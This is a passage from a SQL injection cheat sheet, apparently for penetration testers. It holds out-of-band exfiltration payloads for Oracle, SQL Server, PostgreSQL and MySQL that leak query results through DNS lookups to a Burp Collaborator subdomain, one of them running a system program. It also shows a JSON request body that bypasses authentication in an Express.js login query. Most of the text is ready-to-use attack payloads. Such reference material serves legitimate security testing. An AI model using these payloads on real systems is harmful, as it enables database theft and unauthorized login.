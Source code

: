 You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

|Database|Exploit|
|---|---|
|Oracle|`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`|
|Microsoft|`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`|
|PostgreSQL|`create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`|
|MySQL|The following technique works on Windows only:  <br/>`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|




# Tricks 

## Unsanitized Request Body

Given this code snippet in `express.js`

```js
app.post("/auth", function (request, response) {
 var username = request.body.username;
 var password = request.body.password;
 connection.query(
   "SELECT * FROM accounts WHERE username = ? AND password = ?",
   [username, password],
   ...
 );
});
```

Can be exploited with 

```http
POST /login HTTP/1.1
Content-Type: application/json

{
	"email" {
		"email":1
	},
	"password":{
		"password":1
	}
}
```

Which would result in the following query:

```SQL
SELECT * FROM accounts WHERE username = `username` = 1 AND password = `password` = 1
```

And resolves to 

```sql
SELECT * FROM accounts WHERE 1=1 AND 1=1
```

